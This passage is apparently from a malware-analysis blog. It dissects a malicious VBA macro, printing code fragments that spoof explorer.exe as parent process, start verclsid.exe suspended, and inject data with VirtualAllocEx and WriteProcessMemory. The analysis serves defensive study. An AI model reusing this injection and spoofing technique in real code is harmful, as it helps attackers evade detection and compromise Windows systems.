 To achieve that end, and make our code more readable, I'm going to "Find & Replace All" the newly declared functions back to their Windows API equivalents (e.g. `testRegistry` becomes `CreateProcessA`).

```
Sub Auto_Open()
    ... [truncated] ...

    Set glngProcess = GetObject("winmgmts:\\.\root\CIMV2")
    Set gintQuantity = glngProcess.ExecQuery("SELECT ProcessId FROM Win32_Process WHERE Name = 'explorer.exe'", , 48)
    For Each mvntQuantity in gintQuantity
        gblnScreen = mvntQuantity.ProcessId
    Next

    bytName = OpenProcess(128, False, gblnScreen)
 ```

Then we see the `Auto_Open` function - using WMI to list the process ID of `explorer.exe`, then there's a call to `OpenProcess`, we can look up the parameters to this API call on MSDN to determine the access mask of [`PROCESS_CREATE_PROCESS (0x0080)`](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights). This is required to create a process with `explorer.exe` as the spoofed parent. 

```
    mtypeDesktop = UpdateProcThreadAttribute(bytQuantity, 0, 131072, VarPtr(bytName), 8, 0, 0)
```

The spoofing hypothesis is confirmed by the API calls related to updating the thread context with the value of [131072 or 0x20000](https://gist.github.com/realoriginal/7b03bbbe9684edcc6b4c1c24f111cb30).




```
    If Len(Environ("ProgramW6432")) > 0 Then
        gblnWidgest = Environ("windir") & "\SysWOW64\verclsid.exe"
    Else
        gblnWidgest = Environ("windir") & "\System32\verclsid.exe"
    End If

    mtypeDesktop = CreateProcessA(gtypeCode, gblnWidgest, ByVal 0&, ByVal 0&, 0, 524292, ByVal 0&, gtypeCode, errCurrent, dtmString)
```
Here you can see that the code is determining if the system is 32 or 64 bit, and storing the appropriate path for `verclsid.exe`, before making that call to `CreateProcessA`. I'll call your attention to the 6th parameter of this API call `524292` which is 0x80004, indicating that this process will be created in a suspended state. This is a glaring red flag that this is our injection target. 


Shortly after this code we see a huge text blob `mobjFunction`, if we jump ahead to the `WriteProcessMemory` API call, we can confirm if this is the data injected into the `verclsid.exe` process. 

```
    gtypeCurrent = StrConv(createDictionary(mobjFunction), vbUnicode)
    gcurName = Len(gtypeCurrent) * 2

    intQuantity = VirtualAllocEx(dtmString.gvntWidgest, 0, gcurName, &H1000, &H4)
    mtypeDesktop = WriteProcessMemory(dtmString.gvntWidgest, intQuantity, gtypeCurrent, gcurName, ByVal 0&)
```
